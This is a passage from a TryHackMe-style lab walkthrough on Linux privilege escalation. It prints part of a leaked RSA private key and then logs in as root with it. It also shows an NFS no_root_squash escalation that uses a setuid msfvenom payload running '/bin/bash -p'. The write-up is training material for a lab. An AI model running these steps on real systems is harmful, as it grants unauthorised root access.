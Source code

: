 ```
SXeaH906XF132aeU4V83ZGFVnN6EAMN6zE0c2p1So5bHGVSCMM/IJVVDp+tYi/GV
d+oc5YlWXlE9bAvC+3nw8P+XPoKRfwPfUOXp46lf6O8zYQZgj3r+0XLd6JA561Im
jQdJGEg9u81GI9jm2D60xHFFAoGAPFatRcMuvAeFAl6t4njWnSUPVwbelhTDIyfa
871GglRskHslSskaA7U6I9QmXxIqnL29ild+VdCHzM7XZNEVfrY8xdw8okmCR/ok
X2VIghuzMB3CFY1hez7T+tYwsTfGXKJP4wqEMsYntCoa9p4QYA+7I+LhkbEm7xk4
CLzB1T0CgYB2Ijb2DpcWlxjX08JRVi8+R7T2Fhh4L5FuykcDeZm1OvYeCML32EfN
Whp/Mr5B5GDmMHBRtKaiLS8/NRAokiibsCmMzQegmfipo+35DNTW66DDq47RFgR4
LnM9yXzn+CbIJGeJk5XUFQuLSv0f6uiaWNi7t9UNyayRmwejI6phSw==
-----END RSA PRIVATE KEY-----

user@debian:/.ssh$ chmod 600 root_key 
chmod: changing permissions of `root_key': Operation not permitted
```

So, we will copy it and paste in KALI(attacker VM) to save it as an `600` permission id and log in with ssh
```
$ vim key
$ chmod 600 key 
$ ssh -i key root@10.10.166.236

root@debian:~# whoami
root
```

## Task19: NFS:

see: [hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/)

NOTE: 
> Any executable made in 64 bit OS, can't not be executeded in 32bit metasploitable(or linux) target. We have to use
"`-m32`" option while compiling with gcc.
> see:[link](https://askubuntu.com/questions/184280/bash-filename-cannot-execute-binary-file)
> To practice these steps, we can do the same thing in `msfadmin user` just doing the same thing as done in kali(or attacler VM)

### For THM BOX:
> Method of **Mounting** filesystem share is different than those methods explained in `hackingarticles`. Those methods were not working.

This:
```
$ mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```
Then: Generating payload: (Bash option for priv esc was also not working, getting shared library missing error)
```
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

$ chmod +xs /tmp/nfs/shell.elf

$ /tmp/shell.elf
```
#### What is the name of the option that disables root squashing?
> no_root_squash
